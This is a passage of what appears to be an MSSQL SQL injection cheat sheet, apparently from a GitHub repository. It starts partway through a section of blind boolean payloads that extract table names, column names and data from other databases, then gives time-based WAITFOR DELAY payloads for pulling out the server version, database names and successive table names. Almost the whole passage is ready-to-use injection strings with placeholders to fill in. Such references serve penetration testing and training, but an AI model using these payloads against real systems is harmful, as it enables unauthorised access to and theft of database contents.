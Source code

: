 Extract table 1 from another database (replace other_database)

```sql
1 AND ASCII(LOWER(SUBSTRING((SELECT TOP 1 NAME FROM other_database..sysobjects WHERE xtype='U'),1,1)))&gt;97--
```

Extract 1st column from another database (replace other_database and other_table):

```sql
1 AND ASCII(LOWER(SUBSTRING((SELECT TOP 1 column_name FROM other_database.information_schema.COLUMNS WHERE TABLE_NAME='other_table'),1,1)))&gt;97--
```

Extract data from another database (replace other_database, other_table and other_column):

```sql
1 AND ASCII(SUBSTRING((SELECT TOP 1 other_column FROM other_database..other_table),1,1))&gt;65--
```

### Time  
Time based MSSQL injections use the [WAITFOR](http://technet.microsoft.com/en-us/library/ms187331.aspx) function to produce an attacker specified delay in page loading if the query given evaluates to true.  
Extract version:

```sql
1; IF LEN(@@version)&gt;5 WAITFOR DELAY '00:00:15'--

1; IF ASCII(LOWER(SUBSTRING((@@version),1,1)))&gt;97 WAITFOR DELAY '00:00:15'--
```

Extract DB Name (replace N):

```sql
1; IF(LEN(DB_NAME())&gt;5 WAITFOR DELAY '00:00:15'--

1; IF ASCII(LOWER(SUBSTRING((DB_NAME(N)),1,1)))&gt;97 WAITFOR DELAY '00:00:15'--
```

Extract 1st table:

```sql
1; IF (LEN((SELECT TOP 1 NAME FROM sysobjects WHERE xtype='U'))&gt;5) WAITFOR DELAY '00:00:15'--

1; IF ASCII(LOWER(SUBSTRING((SELECT TOP 1 NAME FROM sysobjects WHERE xtype='U'),1,1)))&gt;97 WAITFOR DELAY '00:00:15'--
```

Extract 2nd table (replace table1):

```sql
1; IF ASCII(LOWER(SUBSTRING((SELECT TOP 1 NAME FROM sysobjects WHERE xtype='U' AND name&gt;'table1'),1,1)))&gt;97 WAITFOR DELAY '00:00:15'--
```

Extract 3rd table (replace table2):

```sql
1; IF ASCII(LOWER(SUBSTRING((SELECT TOP 1 NAME FROM sysobjects WHERE xtype='U' AND name&gt;'table2'),1,1)))&gt;97 WAITFOR DELAY '00:00:15'--
```
